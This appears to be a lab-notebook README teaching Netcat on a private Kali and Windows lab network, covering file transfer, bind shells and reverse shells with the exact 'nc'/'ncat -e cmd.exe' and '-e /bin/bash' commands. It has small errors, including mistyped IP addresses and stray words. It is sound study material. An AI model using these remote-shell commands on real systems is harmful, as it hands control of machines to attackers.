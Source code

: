 # Content

- [Content](#content)
  - [Setup](#setup)
  - [Listening on a TCP/UDP Port](#listening-on-a-tcpudp-port)
  - [Transferring Files with Netcat](#transferring-files-with-netcat)
  - [Remote Administration with Netcat](#remote-administration-with-netcat)
    - [Scenario](#scenario)
    - [From Window connect to Kali](#from-window-connect-to-kali)
    - [From Kali connect to Window](#from-kali-connect-to-window)
  - [Reverse Shell Scenario](#reverse-shell-scenario)
    - [Scenario](#scenario-1)
    - [From Window connect to Kali](#from-window-connect-to-kali-1)
    - [From Kali connect to Window](#from-kali-connect-to-window-1)
  - [Different between bind shell and reverse shell](#different-between-bind-shell-and-reverse-shell)
  
## Setup

- I use a Kali machine with IP: 192.168.50.156
- I use a Windows machine with IP: 192.168.50.10
- Of course, two machine can connect with other.

## Listening on a TCP/UDP Port

- In Window machine, i use `nc -nlvp 4444` to listen on port 4444
  - `-n`: Do not do any DNS or service lookups on any specified addresses, hostnames or ports.
  - `-l`: Used to specify that nc should listen for an incoming connection rather than initiate a connection to a remote host.
  - `-v`: Have nc give more verbose output.
  - `-p`: Specifies the source port nc should use, subject to privilege restrictions and availability.
  ![Picture](Image/1.png)

- In Kali machine, i use `nc -nv 192.168.50.10 4444` to connect to Window machine.
  ![Picture](Image/2.png)

- I create a connection between two machine and can send message from Kali to Window.
  ![Picture](Image/3.png)
  ![Picture](Image/4.png)

## Transferring Files with Netcat

- In Window machine, i use `nc -nlvp 4444 > incoming.exe` to listen on port 4444 and save data to incoming.exe
  ![Picture](Image/5.png)
- In Kali machine, i use `nc -nv 192.168.50.10 4444 < /usr/share/windows-resources/binaries/wget.exe` to connect to Window machine and send wget.exe to Window machine.
  ![Picture](Image/6.png)
- In Window machine, i can see wget.exe file.
  ![Picture](Image/7.png)
  
## Remote Administration with Netcat
  ### Scenario
  - In this case, Bob is running the Windows operating system and asks for help from Alice, who is running Linux. Bob wants Alice to connect to his computer and execute some commands remotely. Bob has a public IP address and is directly connected to the Internet. However, Alice is using a NAT connection and has an internal IP address.
  - To complete the scenario, Bob needs to bind cmd.exe to a TCP port on his public IP address and ask Alice to connect to that particular IP address and port. This means that Bob will open a port on his firewall and allow outside traffic to his computer through that port. After Alice connects to Bob's specified IP and port, Bob can communicate with remote Alice and ask her to execute specific commands on his computer.
  - 
  ### From Window connect to Kali

- In Window machine, i use `ncat -nlvp 4444 -e cmd.exe` to listen on port 4444 with the -e option to execute cmd.exe once a connection is made to the listening port
  ![Picture](Image/8.png)
- In Kali machine, i use `nc -nv 192.168.50.10 4444` to connect to Window machine.
  ![Picture](Image/9.png)
- I can execute command in Window machine from Kali machine.
  ![Picture](Image/10.png)

### From Kali connect to Window

- In Kali machine, i use `ncat -nlvp 4444 -e /bin/bash` to listen on port 4444 with the -e option to execute /bin/bash once a connection is made to the listening port
  ![Picture](Image/11.png)
- In Window machine, i use `nc -nv 192.168.50.156 4444` to connect to Kali machine and execute some command.
  ![Picture](Image/12.png).

- In windows, `cmd.exe` is the default command, while in Linux, `/bin/bash` is the default shell.

## Reverse Shell Scenario

  ### Scenario
  
  - In our second scenario, Alice needs help from Bob. However, Alice has no control over the router in her office, and therefore cannot forward traffic from the router to her internal machine.
  - In this scenario, we can leverage another useful feature of Netcat; the ability to send a command shell to a host listening on a specific port. In this situation, although Alice cannot bind a port to /bin/bash locally on her computer and expect Bob to connect, she can send control of her command prompt to Bob’s machine instead. 
  
### From Window connect to Kali

- In Windows, i use `ncat -nlvp 4444`.
  ![Picture](Image/13.png)
- In Kali, i use `nc -nv 192.160.50.10 4444 -e /bin/bash`.
  ![Picture](Image/14.png)
- So from Windows, i can execute command in the Kali machine. Command line `ifconfig`
  ![Picture](Image/15.png)

### From Kali connect to Window

- In Kali, i use `nc -nlvp 4444`.
  ![Picture](Image/16.png)
- In Windows, i use `ncat -nv -nv 192.160.50.156 4444 -e cmd.exe`.
  ![Picture](Image/17.png)
- So from Kali, i can execute command in the Kali machine. Command line `ipconfig`
  ![Picture](Image/18.png)

## Different between bind shell and reverse shell

- Bind shell: An attack technique that allows an attacker to create a listening service on the victim's machine on a port, when the attacker connects to that port, a shell session is established so that the attacker can take control of the machine. victim's character. With the bind shell, the attacker needs to gain access to the victim's computer, for example through a piece of malware that was previously installed on the victim's computer.
- Reverse shell: An attack technique that allows the attacker to create a connection from the victim's machine to the attacker's machine on a port, after which the attacker will have a shell session set up to take control of the victim's computer. Compared to bind shell, reverse shell does not require the attacker to have access to the victim's computer before, instead the attacker uses a malicious software or a security hole on the victim's computer to exploit. waterfall.





